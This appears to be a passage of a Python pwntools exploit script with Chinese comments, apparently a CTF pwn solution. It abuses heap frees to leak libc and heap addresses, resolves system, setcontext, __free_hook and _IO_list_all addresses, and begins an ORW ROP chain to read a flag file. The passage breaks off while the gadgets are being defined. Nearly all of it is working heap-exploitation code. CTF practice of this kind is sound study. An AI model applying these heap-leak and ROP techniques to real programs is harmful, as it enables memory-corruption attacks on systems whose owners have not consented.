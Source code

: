    ```python
       msg.actionid = 4
       msg.msgidx = index
       msg.msgsize = 7
       msg.msgcontent = b'useless'
       p.sendafter(b'now: ', msg.SerializeToString())
   
   # 泄漏libc地址
   for i in range(6):
       add(i,0xf0,b"./flag\x00")
   add(7,0xf0,b"FFFF")     # 用来泄漏libc地址
   add(6,0xf0,b"FFFF")
   
   for i in range(8):
       free(i)
   
   show(7)
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = addr - libc.symbols["__malloc_hook"] - 0x70
   success("libc_base ==>" + hex(libc_base))
   
   #计算__free_hook和system地址
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
   system_addr        = libc_base + libc.sym["system"]
   IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
   IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
   IO_wfile_jumps_addr= libc_base + libc.sym["_IO_wfile_jumps"]
   IO_2_1_stderr_addr= libc_base + libc.sym["_IO_2_1_stderr_"]
   free_hook_addr= libc_base + libc.sym["__free_hook"]
   
   # rtld_global_addr   = ld_base + ld.sym["_rtld_global"]
   # IO_wfile_jumps_addr = libc_base + 0x1E4F80
   
   success("system_addr        ==>" + hex(system_addr))
   success("setcontext_addr    ==>" + hex(setcontext_addr))
   success("IO_2_1_stdout_addr ==>" + hex(IO_2_1_stdout_addr))
   success("IO_list_all_addr   ==>" + hex(IO_list_all_addr))
   success("IO_wfile_jumps_addr==>" + hex(IO_wfile_jumps_addr))
   success("free_hook_addr     ==>" + hex(free_hook_addr))
   success("IO_2_1_stderr_addr ==>" + hex(IO_2_1_stderr_addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr= libc.sym['write']+libc_base
   mmap_addr = libc.sym['mmap'] +libc_base
   writev_addr = libc_base + libc.sym['writev']
   
   # 泄漏堆地址
   show(0)
   p.recv()
   addr = u64(p.recvuntil(b"\x55")[-6:].ljust(8,b'\x00'))
   heap_addr = addr - 0x10
   success("heap_addr ==>" + hex(heap_addr))
   pause()
   
   # ========== ORW ==========
   
   pop_rdi_ret     = libc_base + 0x0000000000023b6a
   pop_rdx_r12_ret = libc_base + 0x0000000000119211
   pop_rax_ret     = libc_base + 0x0000000000036174
   pop_rsi_ret     = libc_base + 0x000000000002601f
   # pop_rcx_rbx_ret = libc_base + 0x00000000000fc104
   # pop_r8_ret = libc_base + 0x148686
   ```